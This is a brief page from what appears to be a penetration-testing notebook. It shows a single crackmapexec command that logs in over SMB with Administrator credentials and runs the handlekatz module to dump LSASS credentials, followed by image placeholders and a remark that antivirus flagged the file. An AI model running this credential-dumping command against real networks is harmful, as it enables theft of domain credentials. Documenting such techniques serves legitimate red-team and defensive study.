 # handlekatz

{% code overflow="wrap" %}
```bash
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs -M handlekatz
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### AV Detected our File:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
